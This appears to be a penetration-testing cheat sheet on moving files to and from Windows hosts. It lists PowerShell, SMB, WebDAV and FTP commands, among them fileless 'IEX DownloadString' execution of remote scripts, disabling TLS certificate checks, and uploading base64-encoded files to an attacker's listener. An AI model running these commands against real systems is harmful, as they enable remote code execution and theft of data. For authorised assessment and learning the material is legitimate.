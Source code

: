 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><strong>🪟 Windows</strong></summary>
<details>  
<summary><strong>📥 Downloads</strong></summary>
<details>
<summary><strong>PowerShell Downloads</strong></summary>  
<details> 
<summary><strong>PowerShell DownloadFile Method</strong></summary>

Sync  
```powershell
(New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
```
Async  
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
```

</details>

<details>
<summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

Default  
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
```

Pipeline input  
```powershell
(New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
```
</details>

<details>
<summary><strong>PowerShell Invoke-WebRequest</strong></summary>

Default  
```powershell
Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
```

ByPass Internet Explorer Error  
```powershell
Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
```

ByPass SSL/TLS Error  
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
# Command to download the file
```
</details>
</details>

<details>
<summary><strong>SMB Downloads</strong></summary>

**Default**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
Download using CMD in Windows
```cmd
copy \\<IP>\share\<FILE>
```

**Using credentialts**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```
Mount the SMB Server in Linux
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
copy n:\<FILE>
```

</details>

<details>
<summary><strong>FTP Downloads</strong></summary>  

Setting up a Python3 FTP Server in Linux
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user ftpuser --password 'ftppass'
```

**Option 1: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('ftpuser', 'ftppass')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Option 2: Download file using CMD**  

Create a Command File for the FTP Client and Download the Target File
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
```
Once in FTP...
```cmd
open <IP>
USER anonymous
GET <FILE>
bye
```
Back in CMD...
```cmd
more <FILE>
```
---

</details>
</details>
<details>  
<summary><strong>📥 Uploads</strong></summary>  
<details>  
<summary><strong>PowerShell Uploads</strong></summary>  
<details>  
<summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  

1. Encode File Using PowerShell 
```powershell
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

2. Decode Base64 String in Linux
```bash
echo <BASE64 STRING> | base64 -d > <FILE>
md5sum <FILE>
```
</details>
<details>  
<summary><strong>PowerShell Web Uploads</strong></summary>  

1. Installing a Configured WebServer with Upload in Linux
```bash
pip3 install uploadserver
python3 -m uploadserver
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
<details>  
<summary><strong>PowerShell Base64 Web Upload</strong></summary>  

1. We use Netcat to listen in on a port we specify and send the file as a POST request.
```bash
nc -lvnp <PORT>
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```
3. We copy the output and use the base64 decode function to convert the base64 string into a file.
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
<details> 
<summary><strong>SMB Uploads</strong></summary>  

1. Installing WebDav Python modules in Linux
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```
2. Uploading Files using SMB in Windows
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
<details> 
<summary><strong>FTP Uploads</strong></summary>  

**1. Start our FTP Server in Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
**2. Upload the file in Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```
Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
Once in FTP...
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><strong>🐧 Linux</strong></summary>
</details>

---
